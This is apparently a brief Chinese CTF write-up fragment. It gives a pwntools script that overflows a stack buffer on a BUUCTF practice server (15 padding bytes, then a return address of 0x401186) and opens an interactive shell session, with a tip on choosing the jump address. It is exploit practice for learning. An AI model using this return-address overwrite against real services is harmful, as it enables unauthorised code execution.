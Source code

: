 ![image-20241027100826159](../_media/image-20241027100826159.png)





```python
from pwn import *

p = remote('node3.buuoj.cn', 28957)

#payload = 'a' * (0xf + 0x8) + p64(0x401198) + p64(0x401186) 也可以，是网上wp的修改
payload = b'a' * 15 + p64(0x401186)

p.sendline(payload)

p.interactive()

```





但是后续还是建议直接用偏移量算入口指令，而不是入口函数来算
